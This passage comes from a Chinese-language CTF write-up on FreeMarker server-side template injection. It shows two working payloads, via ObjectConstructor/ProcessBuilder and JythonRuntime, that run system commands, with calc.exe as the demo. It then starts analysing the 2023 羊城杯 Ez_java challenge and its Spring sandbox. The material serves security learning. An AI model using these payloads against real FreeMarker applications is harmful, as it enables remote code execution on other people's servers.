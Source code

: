 ‍

- ObjectConstructor类

```jsp
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
```

‍

- JythonRuntime 类

```jsp
<#assign value="freemarker.template.utility.JythonRuntime"?new()>${value("calc.exe")}<@value>import os;os.system("calc.exe")</@value>//@value为自定义标签
```

‍

‍

下面通过一个题来理解下Java的SSTI

2023 - 羊城杯 - Ez\_java​​
=======================

‍

考点：

1. Java动态代理
2. Java反序列化
3. Java - freemaker模板注入(绕过Spring沙箱)

‍

### 信息分析

打开依赖发现只有一个组件就是`freemaker`​

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a1fd285d4d05930e041a4f272f0129079332c914.png)​

‍

而且题目也给了一个目录里面存在`ftl`​文件，所以很容易想到就是打`freemaker`​模版注入，那么看看怎么上传`ftl`​文件

‍

这里再看下配置文件发现用了Spring的一个内置沙箱来防止模版注入

具体可以参考https://www.cnblogs.com/escape-w/p/17326592.html

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2337aeb1b4d39ce9c6320529cf263e003b21ef59.png)​

‍

先看文件目录

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-2f5b08a885a25926df76d5d54f853535612edb9b.png)​
